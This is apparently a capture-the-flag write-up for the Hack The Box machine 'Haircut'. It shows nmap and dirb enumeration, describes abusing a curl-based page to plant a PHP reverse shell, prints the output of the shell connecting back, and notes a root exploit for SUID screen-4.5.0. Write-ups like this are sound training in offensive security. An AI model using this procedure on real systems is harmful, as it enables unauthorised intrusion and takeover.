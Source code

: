 ![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2022-09-25-at-2.32.24-PM.png)

# Three phases:

### Enumeration
### Exploitation
### Privilege Escalation

## Enumeration

#### Using nmap to scan for open ports
```bash
nmap -sC -sV -O -oA nmap/haircut 10.10.10.24
```

Ports open:

- 22/ssh
- 80/http

Checking for the SSH version to see if it was vulnerable, we couldn’t get anything.

Enumerating the default page on port 80, and checking the source code for something interesting, we didn’t find anything there either.

![](http://vedanttare.com/wp-content/uploads/2020/02/defaulthaircut.png)

Using dirb to enumerate and fuzz for directories: dirb -u http://10.10.10.24/ -w /usr/share/wordlists/dirb/common.txt -x .txt,.php

## Exploitation

We found an interesting page **/exposed.php**. This page has a functionality which lets us call any machine given its IP address and any other page on hosted on the machine. We can use this to our advantage maybe!

![](http://vedanttare.com/wp-content/uploads/2020/02/haircutexposed.png)

It can be seen that there was a curl request being made. Hence, we could use curl’s -o option to output a php reverse shell on the victim machine!

After setting up a listener, we get a user shell!

```bash
listening on [any] 9001
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.24] 53864
bash: cannot set terminal process group (1249): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

After running LinEnum.sh, we could see that SUID bit was enabled for a unusual binary which was /usr/bin/screen-4.5.0:

```bash
--- -rwsr-xr-x 1 root root 1588648 May 19 2017 /usr/bin/screen-4.5.0
```

Googling the binary, we find that there is a local privesc exploit available. Hence, we followed the instructions and made libhax.c libhax.so rootshell and rootshell.c and setup a web server and transferred the file over to the victim machine.

Running the commands as given in the exploit, we get a ROOT shell!!!

```bash
cd /root
```

```bash
ls  
root.txt
```

```bash
cat root.txt
4c...........................
```
